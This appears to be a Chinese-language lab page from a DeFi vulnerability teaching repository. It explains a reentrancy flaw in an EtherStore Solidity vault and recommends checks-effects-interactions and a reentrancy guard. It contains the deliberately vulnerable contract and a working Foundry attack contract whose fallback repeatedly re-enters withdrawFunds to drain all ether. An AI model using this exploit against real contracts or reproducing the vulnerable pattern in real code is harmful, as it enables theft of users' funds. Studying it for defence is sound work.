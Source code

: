 # 可重入性
[Reentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Reentrancy.sol)  
**名称：** 可重入性漏洞  
**描述：**  
在EtherStore智能合约设计中有一个可重入性漏洞的缺陷，这会允许攻击者利用重入性从EtherStore合约中提取超过其应提取的资金。  
该漏洞的出现是由于EtherStore合约中的withdrawFunds函数，在更新攻击者余额之前，以太币就被转移到攻击者地址了。  
这允许攻击者的合约在更新余额之前，对withdrawFunds函数进行可重入性回调，从而进行多次提款并且有可能取走EtherStore合约中的所有以太币。  
**场景：**  
EtherStore 合约是一个简单的金库，它管理每个人的以太币。  
但是它有漏洞，你能偷走所有的以太币吗？  


**修复建议：**  
遵守“检查-效果-交互”的编程范式和使用OpenZepplin的重入保护。  



**参考：**  
https://slowmist.medium.com/introduction-to-smart-contract-vulnerabilities-reentrancy-attack-2893ec8390a  

https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/  


**EtherStore合约：**  
```
contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        (bool send, ) = msg.sender.call{value: _weiToWithdraw}("");
        require(send, "send failed");

        // 取款后，检查是否有足够的余额以防止下溢
        //check if after send still enough to avoid underflow
        if (balances[msg.sender] >= _weiToWithdraw) {
            balances[msg.sender] -= _weiToWithdraw;
        }
    }
}
```

**如何测试：**  

forge test --contracts src/test/Reentrancy.sol-vvvv  
```
// 测试 EtherStore合约可重入攻击漏洞的函数 
function testReentrancy() public {
    // 执行攻击合约的Attack函数
    attack.Attack();
}

// 攻击EtherStore合约的合约
contract EtherStoreAttack is Test {
    // 待攻击的EtherStore合约实例
    EtherStore store;

    // 初始化EtherStore合约
    constructor(address _store) {
        store = EtherStore(_store);
    }

    // 执行攻击的函数
    function Attack() public {
        // 记录EtherStore的余额
        console.log("EtherStore balance", address(store).balance);

        // 向EtherStore合约存入1个以太币
        store.deposit{value: 1 ether}();

        // 记录EtherStore合约新余额
        console.log(
            "Deposited 1 Ether, EtherStore balance",
            address(store).balance
        );
        //从EtherStore合约取走1个以太币, 这就是可以攻击的地方
        store.withdrawFunds(1 ether); 

        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        //记录EtherStore合约取款后的余额
        console.log("EtherStore balance", address(store).balance);
    }

    // 利用可重入漏洞的回退函数
    receive() external payable {
        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);
        // 判断EtherStore合约余额是否至少有1个以太币
        if (address(store).balance >= 1 ether) {
            // 取走1个以太币，这就是在回退函数中利用到的
            store.withdrawFunds(1 ether); 
        }
    }
}
```
**红色框：**  攻击成功，取完了EtherStore合约中的以太币。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6c7fb809-e4be-407c-a133-64416461a86e%2FUntitled.png?table=block&id=cc44df8e-6a18-44b2-b9e9-892b3b29be79&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

